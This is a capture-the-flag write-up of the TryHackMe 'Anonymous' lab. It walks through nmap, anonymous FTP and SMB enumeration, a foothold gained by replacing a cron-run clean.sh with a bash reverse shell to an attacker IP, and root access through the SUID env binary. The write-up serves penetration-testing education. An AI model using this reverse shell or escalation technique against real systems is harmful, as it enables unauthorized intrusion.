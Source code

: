 ```yaml
---
title: "TryHackMe - Anonymous"
author: Nasrallah
description: ""
date: 2022-04-15 07:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, linux, smb, ftp]
#img_path: /assets/img/tryhackme
image:
  src:
  width:
  height:
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Anonymous](https://tryhackme.com/room/anonymous) from [TryHackMe](https://tryhackme.com)

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.50.126                                                                                                                            
Host is up (0.12s latency).                                                                                                                                  
Not shown: 996 closed tcp ports (reset)                                                                                                                      
PORT    STATE SERVICE     VERSION                                             
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:                                                                                                                                                    
| FTP server status:                                                          
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp                
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -21m37s, deviation: 0s, median: -21m37s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2022-04-03T12:43:56
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-04-03T12:43:56+00:00
```

There are 4 open ports:
 - 21 ftp vsftpd
 - 22 ssh OpenSSH 7.6p1
 - 139 netbios-ssn Samba smbd
 - 445 netbios-ssn Samba smbd

Let's start off by enumerating ftp since it allows anonymous login.

## FTP

We can connect to the ftp server with `ftp {target_IP}`, we supply the name as `anonymous` and we can left the password blank.

![](/assets/img/tryhackme/anonymous/a1.png)

We found some files on the server, we can download them to our machine using `get {filename}`.

Now that the files are downloaded, let's see what's on them.

![](/assets/img/tryhackme/anonymous/a3.png)

First, we have `clean.sh` script that seems to be a cleaning script. The `to_do.txt` file has a note for removing the anonymous login. The third file, `removed_file.log`, has a bunch of text that's beings repeated, and it is the same text we saw in the `clean.sh` script ,so there must be a cronjob that runs `clean.sh` regularly.

## SMB

We can check the shares of the smb server by running : `sudo smbclient -L {target_IP} -N`.

![](/assets/img/tryhackme/anonymous/a2.png)

We found `pics` share, we can connect to that share with this command : `sudo smbclient //{target_IP}/pics -N`

![](/assets/img/tryhackme/anonymous/asmb.png)

There are two pictures there, i downloaded them using `get {filename}`, inspected them for hidden content but i got nothing.


# **Foothold**

We can use the `clean.sh` script to get access to the machine, let's check it's permissions first.

![](/assets/img/tryhackme/anonymous/a4.png)

We see that can edit the script. What i did is i created a file with the same name 'clean.sh' and put the following script in that file.

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.x.x/9001 0>&1
```

This script sends a reverse shell, so i setup a listener on my machine with `nc -lvnp 9001`, and uploaded a script to the ftp server using `put clean.sh`.

![](/assets/img/tryhackme/anonymous/a5.png)

Waiting for some time, i got the shell.

![](/assets/img/tryhackme/anonymous/a6.png)


# **Privilege Escalation**

For privesc, I uploaded linpeas and ran it.

![](/assets/img/tryhackme/anonymous/a7.png)

We found that `env` has suid binary set, searching for the binary in [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found that we can run `env /bin/bash -p` and get a root shell

![](/assets/img/tryhackme/anonymous/a8.png)

Great! We got root access.


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
